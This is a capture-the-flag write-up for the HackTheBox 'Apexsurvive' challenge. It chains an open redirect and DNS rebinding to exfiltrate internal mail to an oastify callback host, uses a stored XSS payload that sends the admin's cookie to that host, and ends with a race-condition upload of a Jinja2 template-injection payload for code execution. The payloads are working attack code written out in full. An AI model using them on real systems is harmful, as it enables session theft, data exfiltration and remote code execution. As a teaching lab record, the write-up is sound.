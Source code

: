 +++
title = 'HackTheBox Cyber Apocalypse 2024 Apexsurvive Writeup'
date = 2024-03-14T17:38:37+01:00
draft = true
+++

## First Steps
We analyze the code and notice the email page will only show emails addressed to test@email.htb.

![EmailCode](/test-email.png)

We create a user with the email test@email.htb and confirm the registration by visiting the link from an email.

![Verify email 1](/verify-email-1.png)

![Verify email 2](/verify-email-2.png)

## Internal User
Upon further code inspection we find out that users that sign up with an email hosted at apexsurvive.htb will be marked as internal users.

![VerificationCode](/apexsurvive-email.png)

There's an "/external" API endpoint that can be used for an open redirect.

![Open redirect](/open-redirect.png)

And the emails are served by mailhog running on port 9000 and can be internally retrieved by using the "/api/v2/messages" endpoint.

![Mailhog port](/mailhog-port.png)

We create an user asdf@apexsurvive.htb.

![Apex register](/apex-register.png)

We log in and request a verification email. It won't appear in emails on the website.

![Apex verify](/apex-verify.png)

We'll use the /external endpoint for an open redirect to our controlled website and then do DNS rebinding to fetch emails from mailhog running on port 9000 and get the confirmation email for internal user. To do this, I'll set up an EC2 instance with a public ip address and then add a DNS NS record for it (keep in mind the dot at the end):

![DNS config](/dns-config.png)

On the instance, I'll run https://github.com/mogwailabs/DNSrebinder to change the resolution of my domain from ec2 public ip address to 127.0.0.1 after a moment:

    sudo python3 dnsrebinder.py --domain dynamic.mywebsite.xyz. --rebind 127.0.0.1 --ip <website-public-ip> --counter 1 --udp --ttl 1

We'll also run an http server on it serving index.html that keeps fetching /api/v2/messages for mailhog emails and then sends them back to us. Keep in mind it has to be on the same origin (port 9000).

    sudo python3 -m http.server 9000

index.html:

    <html>
    <body>
    <script>
        (function () {
            var axhr = new XMLHttpRequest();
            axhr.open('GET', 'http://myburpcollab.oastify.com?start=start');
            axhr.send()
            var interval = setInterval(function () {
                var xhr = new XMLHttpRequest();
                xhr.open('GET', 'http://dynamic.mywebsite.xyz:9000/api/v2/messages', false);
                xhr.onload = function () {
                    if (xhr.status != 200) { return; }
                    var xhr2 = new XMLHttpRequest();
                    xhr2.open('GET', `http://myburpcollab.oastify.com?msgs=${btoa(this.responseText)}`);
                    xhr2.send();
                };
                xhr.send()
            }, 200)
        })();
    </script>
    </body>
    </html>

We log in as test@email.htb and report:

    ../external?url=http://dynamic.mywebsite.xyz:9000/

We notice how after a short moment our DNS server starts resolving our domain to 127.0.0.1 instead of our public API.

![DNS rebind](/dns-rebind.png)

It might take about 1 minute before the domain resolution is updated to 127.0.0.1. The first callback after start=start one contains base64 encoded emails from mailhog API. We decode them and get the confirmation link for the internal user.

![Base64 emails](/base64-emails.png)

## XSS to steal admin cookie
As an internal user we now have the ability to add products. In /application/templates/product.html we notice that the product.note (Product manual) from an input controlled by us is not sanitized and allows us to escape JS backticks.

![Product note JS string escape](/product-note.png)

We add any new product and in the product manual we put in:

    `;fetch("https://myburpcollab.oastify.com/xss?c="+document.cookie);let x=`

![Add product](/add-product.png)

We double check we escaped JS backticks after adding the product:

![JS backtick escape](/js-backtick-escape.png)

After we create it, we make admin visit it by reporting its assigned product number. We take the admin session cookie from the callback.

![Admin session XSS](/admin-session-xss.png)

## Admin to RCE
As an admin, we now have the ability to add PDF contracts. We notice that:
- the file is always saved to the same location before checking it’s a pdf,
- we can save the file anywhere by using “..” in the filename,
- the pdf check takes the temporary file from the file system, not directly from the request.

![Race condition in PDF upload](/pdf-upload-race-condition.png)

As a result, there’s a race condition between saving the temp file and checking that it’s a pdf.

We prepare 2 files:
1) a small pdf,
2) a jijnja template that’ll read out the flag:

        Result {{ self.__init__.__globals__.__builtins__.__import__('os').system('/readflag > /app/application/static/images/flag.txt') }}

We upload both and add them to a burp repeater group like so:

![Burp parallel requests setup 1](/burp-parallel-1.png)
![Burp parallel requests setup 2](/burp-parallel-2.png)

We try sending them multiple times using “Send group (parallel)”. We can play around with the number of pdf/jinja2 template requests in the group. We watch out for “message: Contract added” in a response to a jinja2 template upload. We check for it by refreshing any product page multiple times. If we see our payload, the flag is available under /static/images/flag.txt.

![Result 0](/result-0.png)
![Apex flag](/apex-flag.png)

## References:
- https://unit42.paloaltonetworks.com/dns-rebinding/
- https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
- https://portswigger.net/research/smashing-the-state-machine